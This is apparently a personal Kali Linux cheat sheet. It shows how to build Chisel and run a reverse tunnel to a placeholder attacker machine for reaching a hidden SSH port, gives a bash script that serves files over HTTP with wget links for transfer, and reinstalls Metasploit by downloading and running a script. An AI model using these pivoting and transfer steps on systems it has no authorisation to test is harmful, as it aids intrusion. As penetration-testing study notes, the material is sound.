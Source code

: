 ```yaml
---
title: "Kali Tricks"
excerpt_separator: "<!--more-->"
author_profile: false
categories:
  - Linux
tags:
  - cheatsheet
  - kali
---
```



## Sections

### Kali
* [Tips and Tricks](#tips-and-tricks)
* [Install Apps Universally](#install-apps-universally)

### Kali app updates
* [Metasploit update](#metasploit)



## Tips and Tricks
### Chisel Quick guide

<details>
  <summary>Chisel Info - Click here</summary>
  
Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go (golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network.

</details>

Install Chisel
* cd to /opt
```console
cd /opt
```
* clone the repo
```console
git clone https://github.com/jpillora/chisel.git
```
* cd to the cloned repo
```console
cd chisel
```
sync go vendor modules, seems to be needed to build for windows
```console
go mod vendor
```
build Linux binary:
```console
go build -ldflags "-s -w"
```
build Windows binary
```console
env GOOS=windows GOARCH=amd64 go build -o chisel-x64.exe -ldflags "-s -w"
```
  
Usage: [Chisel Github](https://github.com/jpillora/chisel)

(*upload chisel to the attacking machine)    

Use chisel to reverse connect back to the other hidden localhost port for ssh 22 using port 9001

```console
$ ./chisel server -p 9001 --reverse

$ ./chisel client 10.8.0.116:9001 R:127.0.0.1:9002:172.17.0.1:22
# ./chisel client YOUR-IP-HERE:9001 R:127.0.0.1:9002:ATTACKER-MACHINE-IP:22
```

### Install apps universally
To make an application or script available system-wide you usually copy them to /usr/local/bin

**Example:** If we want to get our IP address, List files and then start a python http server to server the files. 

1. Make a script (or get an App you want), I've called my script: pss.sh (python start server.sh)
Script Details:-
- Select IP if more then 1 interface (eth0, tun0)
- List files in directory with wget links and your current IP
- Shows all files in the current directory

```bash
#!/bin/bash

GN="\e[32m"
RES="\e[0m"
CYAN="\e[1;36m"

echo -e "\n$CYAN""Python FileServer$RES"
echo -e "Created By$GN Ac1d $RES\n"

HN="hostname -I"
res=$(eval $HN)
arrIN=(${res// / })
IP=""

if [ ${#arrIN[@]} -gt 1 ]; then
        PS3='Which Ip address, 1 or 2?: '
        options=("Option 1: ${arrIN[0]}" "Option 2: ${arrIN[1]}" "Quit")
        select opt in "${options[@]}"
        do
        case $opt in
                "Option 1: ${arrIN[0]}")
                        IP="${arrIN[0]}"
                        #echo "you chose choice 1"
                        break
                ;;

                "Option 2: ${arrIN[1]}")
                        IP="${arrIN[1]}"
                        #echo "you chose choice 2"
                        break
                ;;
                "Quit")
                break
                ;;
                *) echo "invalid option $REPLY";;
        esac
        done
else
       IP=$arrIN

fi
echo "IP: "$IP
echo -e "File links...\n"
for entry in `ls`;do
        if  [  ! -d $entry  ];then
                wgetCmd=$(echo "wget ${IP##*( )}/$entry" | xargs)
                echo -e "\t$GN$wgetCmd$RES"
        fi
done
echo -e "\nCurrent Directory Contents"
ls --color $PWD
echo -e "\nStarting Server"
sudo python3 -m http.server 80  -d .
```

2. Give it the correct file permissions. 
```bash
chmod +x pss.sh
```

3. Then copy the file/script to /usr/local/bin 
```bash
cp pss.sh /usr/local/bin
```

4. Call your file from anywhere 
```bash
pss.sh
```

5. Test your new tools and scripts out from any directory. 
![](/assets/images/pss.png)

Image for choice selection.
![](/assets/images/pss2.png)

## Kali app updates
### Metasploit
Remove old metasploit 
```console
sudo apt remove metasploit-framework -y
```
Install new version, Run 'msfconsole' after install
```console
sudo curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && chmod 755 msfinstall && ./msfinstall
```





